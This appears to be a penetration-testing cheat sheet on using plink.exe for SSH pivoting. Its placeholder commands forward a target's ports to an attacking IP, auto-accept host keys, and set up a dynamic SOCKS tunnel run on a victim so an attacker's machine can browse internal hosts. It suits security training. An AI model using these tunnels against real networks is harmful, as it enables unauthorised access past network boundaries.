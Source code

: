 ## It's a windows command line version of the PuTTY SSH client.

    .\plink.exe -ssh -l USER -pw PASSWORD -R 1433:127.0.0.1:1433 -hostkey KEY_SIGNATURE JUMPBOX_IP

### cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N

### Convert keys with puttygen: puttygen KEY -o KEY.ppk

## Local SSH Tunneling 

 - plink.exe -L PORT:TARGET_IP:TARGET_PORT USER@VICTIM_IP

### Then browse to: 127.0.0.1:PORT

## Dynamic SSH Tunneling

 - plink.exe -D PORT USER@VICTIM_IP (Execute on target)

### Then configure connections from Kali machine 

#### 1) Open browser, then Connection Settings

#### 2) Manual Proxy configuration

#### 3) SOCKS Host 127.0.0.1 port PORT

#### 4) SOCKSv5 button

#### 5) No proxy for: 127.0.0.1

#### 6) Browse to TARGET_IP

## Alternate method: Proxychains
